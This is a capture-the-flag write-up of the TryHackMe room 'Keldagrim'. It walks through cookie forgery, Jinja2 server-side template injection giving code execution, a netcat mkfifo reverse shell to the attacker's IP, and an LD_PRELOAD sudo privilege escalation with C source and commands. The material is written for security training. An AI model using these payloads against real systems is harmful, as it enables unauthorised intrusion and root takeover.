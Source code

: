 ```yaml
---
title: "TryHackMe - Keldagrim"
author: Nasrallah
description: ""
date: 2023-01-05 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, medium, LD_PRELOAD, ssti, sudo]
img_path: /assets/img/tryhackme/keldagrim
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Keldagrim](https://tryhackme.com/room/keldagrim) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.46.185
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
|_  256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
80/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-title:  Home page 
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

There are two open ports, 22 running OpenSSH and 80 running Werkzeug http webserver with python.

### Web

Let's navigate to the web server.

![](1.png)

This is a gold selling website for video games.

The `buy gold` tab on the website has an interesting page.

![](2.png)

Let's check the admin page.

![](3.png)

Not very different from the first page, maybe we need to have permission to view the page.

Let's check if there are any cookies.

![](4.png)

We found a cookie called `session` with a value that looks like a base64. Let's decode it.

![](5.png)

It's a base64 encoding of `guest`.

Let's try changing `session` value to admin.

![](6.png)

We base64 encode `admin` and change to cookie's value and refresh the admin page.

![](7.png)

We got a different page this time, on the page we see current user with $2,165.

Let's check the the cookies again.

![](8.png)

There is another cookie now called `sales` with once again a base64 encoded string. Let's decode it.

![](9.png)

It's the same amount of money we saw on the admin page.

Let's change it to see if the website returns what's on the cookie.

![](10.png)

We replace the value of `sales` with the new one and refresh the page.

![](11.png)

It did.


## **Foothold**

Since this website uses python, i tried to do a server side template injection.

With the help of [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2), let's see if the site is vulnerable to SSTI.

![](12.png)

The payload we'll be using for testing is `\{\{7*'7'\}\}` , let's base64 encode it.

![](13.png)

Now we put as `sales` value and refresh the page, if we got 7777777 back the website is vulnerable.

![](14.png)

We confirmed the site is vulnerable, now let's search for some remote code execution [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread).

![](15.png)

Let's use the following payload.

```python
\{\{ self.\_TemplateReference\_\_context.cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('id').read() \}\}
```

![](16.png)

Let's relace the new cookie with the new one and refresh the page.

![](17.png)

Great! We got rce.

Now let's get a reverse shell with the help of [revshell.com](https://www.revshells.com/).

![](18.png)

Will be using nc mkfifo payload.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.14.124 9001 >/tmp/f
```

Let's add this the the first rce payload.

```python
\{\{ self.\_TemplateReference\_\_context.cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.14.124 9001 >/tmp/f').read() \}\}
```

Let's base64 encode the payload, change the cookie value, setup a listener and then refresh the page.

![](19.png)

We got the reverse shell and used python pty to stabilize it.


## **Privilege Escalation**

Let's check out current privileges.

![](20.png)

We can run /bin/ps as root, but we also see that LD_PRELOAD is added to env_keep, this mean that we can specify a shared library to run before the program is executed.

To exploit this, we need to write the following c program.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

```

We save the code above in a file with the extension `.c` at the end; `exp.c` for example.

now we need to compile it using the following command:

```bash
gcc exploit.c -o exploit -fPIC -shared -nostartfiles -w
```

Now we execute `ps` as root and specify the `exploit` as the library we want to run before the program.

```bash
sudo LD_PRELOAD=/home/jed/exploit /bin/ps
```

![](21.png)

Congratulations, we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
